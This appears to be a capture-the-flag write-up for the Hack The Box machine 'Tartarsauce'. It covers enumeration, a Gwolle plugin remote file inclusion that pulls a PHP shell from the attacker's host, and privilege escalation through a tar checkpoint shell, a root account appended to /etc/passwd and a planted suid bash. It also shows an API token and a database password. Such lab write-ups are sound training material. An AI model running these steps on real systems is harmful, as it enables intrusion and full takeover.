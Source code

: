 # Summary



## about target

tip:  10.129.1.185

hostname:  tartarsauce

Difficulty:  Medium



## about attack

+ web enum, try default creds/weak pwd/dirscan different dir, extension 
+ wpscan, enum all the plugins. 
+ read the instresting scripts, and exploit. 





**attack note**

```bash
Tartarsauce / 10.129.1.185

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Landing Page
| http-robots.txt: 5 disallowed entries
| /webservices/tar/tar/source/
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)

- Enum

-- web  
--- robots.txt

Disallow: /webservices/tar/tar/source/
Disallow: /webservices/monstra-3.0.4/
Disallow: /webservices/easy-file-uploader/
Disallow: /webservices/developmental/
Disallow: /webservices/lesxs/




-- local 

/** MySQL database username */
define('DB_USER', 'wpuser');

/** MySQL database password */
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');


sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

-- onuma

python -c 'import pty;pty.spawn("/bin/bash")'

cp bash.tar.gz 

echo 'attacker:$1$TBJpMCue$Uzl02jOSnrQBz40ES6j611:0:0:attacker:/root:/bin/bash' >> /etc/passwd
```







# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Landing Page
| http-robots.txt: 5 disallowed entries
| /webservices/tar/tar/source/
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)
```



## http enum

robots.txt,  5 path

Disallow: /webservices/tar/tar/source/
Disallow: /webservices/monstra-3.0.4/
Disallow: /webservices/easy-file-uploader/
Disallow: /webservices/developmental/
Disallow: /webservices/lesxs/



/webservices/monstra-3.0.4/, monstra cms 3.0.4;   Rabbit hole.



dir scan  /webservices, found /wp.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/webservices/ -o gobuster-webservices.log -x php,txt
```



wpscan 

```bash
wpscan --api-token eHmdOsNYBMMTmCxORyxOKVa5MZnegduDGRkGemtaFgo --url http://10.129.1.185/webservices/wp -e ap,u
```

found user wpadmin, no plugins. (odd, there are some plugins, eg. Gwolle, which is vulnerable to  get shell.)

![image-20221020233246696](./images/image-20221020233246696.png)



# Exploitation

Gwolle plugins vulnerablity, lfi/rfi

http://10.129.53.255/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.78/phpshell

got shell, www-data





# Privesc



## local Enum

www-data, sudo -l; 



![image-20221019233349212](./images/image-20221019233349212.png)

exploit tar wildcard, get onuma shell.

```bash
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![image-20221019233641637](./images/image-20221019233641637.png)



found /usr/sbin/backuperer; exploit failed. 

check the scripts.

![image-20221020001715736](./images/image-20221020001715736.png)





## System

exploit untar with file user and group property. 

copy /bin/sh to kali.

mkdir var/html/www, copy sh to this dir.

Change owner to root, add suid bit.

tar to tar.gz, copy to target.

wait for backuperer execute, and cp gz file to .xxxxxxxxxx;

Wait for untar,  execute bash.

```bash
mkdir -p var/www/html
cp bash var/www/html
cd var/www/html
sudo chown root:root bash
sudo chmod 6555 bash
cd ../../../
tar -zcvf bash.tar.gz var/

# transfer gz to target via python web
systemctl list-timers  # check the execute time.

ls -al  # once found the file .xxxxx
cp bash.tar.gz .xxxxxx 

cd check/var/www/html
./bash -p 
```



![image-20221020232559806](./images/image-20221020232559806.png)



## proof

```bash


```



